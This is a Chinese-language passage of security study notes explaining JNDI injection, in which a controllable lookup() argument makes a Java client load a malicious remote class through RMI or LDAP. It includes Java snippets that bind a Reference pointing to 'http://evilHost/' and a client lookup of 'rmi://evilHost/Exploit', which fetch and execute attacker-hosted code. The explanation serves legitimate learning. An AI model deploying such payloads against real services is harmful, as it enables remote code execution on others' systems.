 所谓的 `JNDI` 注入就是控制 `lookup` 函数的参数，这样来使客户端访问恶意的 `RMI` 或者 `LDAP` 服务来加载恶意的对象，从而执行代码，完成利用 在 `JNDI` 服务中，通过绑定一个外部远程对象让客户端请求，从而使客户端恶意代码执行的方式就是利用 `Reference` 类实现的。`Reference` 类表示对存在于命名/目录系统以外的对象的引用。具体则是指如果远程获取 `RMI` 服务器上的对象为 `Reference` 类或者其子类时，则可以从其他服务器上加载 `class` 字节码文件来实例化 `Reference` 类常用属性：

> className 远程加载时所使用的类名
> classFactory 加载的 class 中需要实例化类的名称
> classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议

如：
```java
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );           
registry.bind("Exploit", new ReferenceWrapper(reference));
```

假如客户端使用RMI协议，lookup请求服务端bind的Exploit类

```java
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： `http://evilHost/Exploit.class` 获取构造对象实例，构造方法中的恶意代码就会被执行

## JNDI References 注入

JNDI中对象的传递有两种：

* 序列化
* 引用

对于引用，若客户端lookup()的内容可控，控制客户端去访问恶意的服务中心（rmi、ldap），获取恶意的引用，进而获取恶意远程服务器的恶意class文件进行执行

![image-20230122130759103](../.gitbook/assets/image-20230122130759103.png)
